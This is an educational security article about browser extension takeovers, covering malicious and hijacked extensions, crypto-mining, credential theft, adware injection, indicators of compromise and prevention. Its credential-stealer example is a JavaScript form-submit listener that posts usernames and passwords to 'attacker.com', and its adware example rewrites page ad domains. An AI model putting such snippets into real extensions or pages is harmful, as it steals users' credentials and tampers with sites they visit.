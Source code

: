 <br>

# Browser Extension Takeovers
Browser extension takeovers **occur when malicious actors exploit vulnerabilities or manipulate browser extensions to gain unauthorized access, install malicious scripts, or hijack browser behavior**. These attacks can result in **cryptocurrency mining, credential theft, and adware injection, impacting user security and privacy**.

## 1. How Browser Extension Takeovers Happen
1. **Malicious Extensions**
  - Attackers create or distribute browser extensions containing malicious code.
  - Example
    - An extension claiming to improve performance but secretly mining cryptocurrency.
2. **Compromised Legitimate Extensions**
  - Attackers take control of a trusted extension via:
    - **Developer Account Hijacking**: Compromising the extension developer’s credentials.
    - **Supply Chain Attacks**: Injecting malicious updates into the extension’s source code.
  - Example
    - The “Copyfish” extension was compromised in 2017 after attackers hijacked the developer’s credentials.
3. **Exploiting Permissions**
  - Extensions often request excessive permissions (e.g., full access to websites, clipboard, or storage).
  - Example
    - Extensions requesting  

```
"permissions": ["*://*/*", "storage", "tabs"]
```

4. **Third-Party Libraries**
  - Extensions may rely on third-party libraries that contain vulnerabilities or backdoors.
5. **Browser Updates**
  - Attackers exploit outdated browsers or extensions not patched for security flaws.  
<br>

## 2. Types of Attacks Using Browser Extensions

### a. Cryptocurrency Miners
  - Inject scripts that silently mine cryptocurrencies like Monero using the victim’s CPU resources.
  - Impact
    - Slows down system performance.
    - Increases energy consumption.
  - Example
    - A malicious extension injects Coinhive scripts to mine cryptocurrency when the browser is active.

### b. Credential Stealers
  - Extensions with access to input fields, cookies, or browser storage steal:
    - Login credentials.
    - Session tokens.
    - Payment information.
  - Techniques
    - Capturing keystrokes or form submissions.
    - Extracting session cookies for account takeovers.
  - Example  

```
document.addEventListener('submit', (e) => {
    fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify({ username: e.target.username.value, password: e.target.password.value })
    });
});
```

### c. Adware Injection
  - Extensions inject malicious ads, pop-ups, or redirect traffic to earn revenue from affiliate networks.
  - Impact
    - Alters legitimate website content.
    - Redirects users to phishing or malware-laden websites.
  - Example
    - Replacing ads on example.com with attacker-controlled ads  

```
document.body.innerHTML = document.body.innerHTML.replace(/adnetwork\.com/g, 'attacker-ads.com');
```  

<br>

## 3. Indicators of Compromised Extensions
1. **High CPU Usage**
  - Sudden spikes in CPU usage, even when idle, could indicate cryptomining.
2. **Unexpected Ads or Pop-Ups**
  - Ads appearing on websites that normally don’t display them.
3. **Unauthorized Behavior**
  - Redirections to unknown websites.
  - Requests for unexpected permissions.
4. **Slow Browser Performance**
  - Compromised or malicious extensions may slow browsing activity due to mining or data exfiltration.
5. **New Unknown Extensions**
  - Extensions you didn’t install appearing in your browser.  
<br>

## 4. Preventing Browser Extension Takeovers

### a. Limit Extension Permissions
  - **Least Privilege Principle**
    - Only install extensions with minimal permissions necessary for their functionality.
  - **Review permissions like**
    - Access to all sites or Read and change data on all websites.

### b. Use Trusted Extensions
  - Install extensions only from **trusted sources**
    - Chrome Web Store, Mozilla Add-ons.
  - Check user reviews, ratings, and the number of downloads.

### c. Regularly Audit Extensions
  - Periodically review installed extensions and remove unused or suspicious ones.

### d. Enable Automatic Updates
  - Keep both browsers and extensions updated to patch known vulnerabilities.

### e. Monitor Extension Behavior
  - Use tools to analyze extensions
    - CRXcavator: Audits Chrome extensions for risks.
    - Privacy Badger: Blocks trackers and malicious scripts.

### f. Use Security Solutions
  - Implement security tools that:
    - Detect malicious browser extensions.
    - Prevent unauthorized script execution.

### g. Be Cautious of Developer Abandonment
  - Extensions abandoned by developers may get hijacked and updated with malicious code.  
<br>

## 5. Example Scenario: Malicious Extension Hijacking
1. Original Scenario
  - User installs a legitimate “ad blocker” extension with 5-star reviews.
2. Attack
  - The attacker compromises the developer’s account and pushes a malicious update.
  - The update includes a script to mine cryptocurrency in the background.
3. Result
  - Users experience high CPU usage and slower system performance.
  - Their browser silently connects to an attacker-controlled mining pool.  
<br>

## 6. Summary

| Attack Type | Description | Impact |
| ----------- | ----------- | ------ |
| Cryptocurrency Miners | Uses CPU power to mine crypto without user consent. | Slows system, increases energy usage. |
| Credential Stealers | Steals passwords, cookies, and tokens via input monitoring. | Account takeovers, data theft. |
| Adware Injection | Injects ads or redirects traffic to malicious sites. | Alters content, phishing, revenue fraud. |

**Browser extension takeovers pose a significant security risk, enabling attackers to inject miners, steal credentials, or display malicious ads**. By carefully managing permissions, auditing extensions, and staying vigilant about unusual behavior, users and organizations can reduce the risk of extension-related attacks. Security awareness and proper hygiene are key to preventing these takeovers.  
<br>